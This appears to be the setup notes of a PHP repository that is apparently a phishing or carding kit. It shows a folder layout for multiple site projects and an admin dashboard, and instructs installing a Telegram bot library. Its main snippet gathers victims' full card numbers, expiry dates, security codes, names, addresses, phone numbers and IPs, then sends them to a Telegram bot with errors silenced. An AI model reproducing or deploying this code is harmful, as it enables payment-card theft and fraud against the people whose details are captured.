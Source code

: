 "# source_code_manage" 



Root Directory 
	admin
	dashboard


	#FOLDER_ANEM_OF_PROJECT
	#FOLDER_TWO_OF_PROJECT



	config.php
	index.php
	.htaccess


in root directory you create folder for new source code 

//Varifiable can access anywhere in code for current folder path

<?php echo $folder_path;?>
require $_SERVER["DOCUMENT_ROOT"].'/config.php';




//Config.php

define('DATE_TIME_FORMATE', "m/d/Y H:s"); 
define('DATE_FORMATE', "m/d/Y"); 
define('TIME_FORMATE', "H:s"); 
$globalDate = date(DATE_FORMATE);


<?php echo $globalDate; ?>
<?php echo date(DATE_TIME_FORMATE);?>
<?php echo date(DATE_TIME_FORMATE, strtotime($globalDate . ' -1 DAY +2 HOURS'));?>








Run this command in root directory for send notification to bot
composer require longman/telegram-bot




Send notification to telegram 
include ABS_PATH.'/notification_send_to_bot.php';
$message_data = array(
               'address'=> $address, 
               'city'=> $city, 
               'state'=> "", 
               'zipcode'=> $zipcode, 
               'email'=> $email, 
               'card_number'=> $cardnumber, 
               'card_expire'=> $exp_date, 
               'security_code'=> $card_code, 
               'card_holder'=> $fullname, 
               'ip'=> $ip, 
               'user_agent'=> $_SERVER['HTTP_USER_AGENT'], 
               'date_time'=> $date,
               'post_from'=> $folder_path,
               'phone'=> $phone
        );
@notification_to_bot($message_data,$conn);





//composer update
composer require longman/telegram-bot
add config.php
add dashboard/config.php
add dashboard/constant.php
add dashboard/authtoken.txt






